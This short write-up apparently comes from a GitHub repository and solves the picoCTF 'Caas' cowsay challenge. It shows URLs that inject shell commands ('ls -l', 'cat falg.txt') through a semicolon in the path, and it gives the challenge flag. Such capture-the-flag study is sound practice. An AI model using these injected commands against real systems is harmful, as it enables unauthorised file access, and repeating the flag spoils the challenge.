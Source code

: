 # Picoctf

## Caas

### Solution

I started by going through both the Caas Websites[1](https://caas.mars.picoctf.net/) [2](https://caas.mars.picoctf.net/cowsay/message). And found nothing special in them. I downloaded the index.js file and found out that it is using the HTTP GET METHOD. After finding this out. I simply put another command 'ls' to list all the files and then opened falg.txt using cat 'cat falg.txt.

'''
https://caas.mars.picoctf.net/cowsay/yoo
https://caas.mars.picoctf.net/cowsay/yoo;ls -l
https://caas.mars.picoctf.net/cowsay/yoo;cat%20falg.txt
'''

flag: picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}
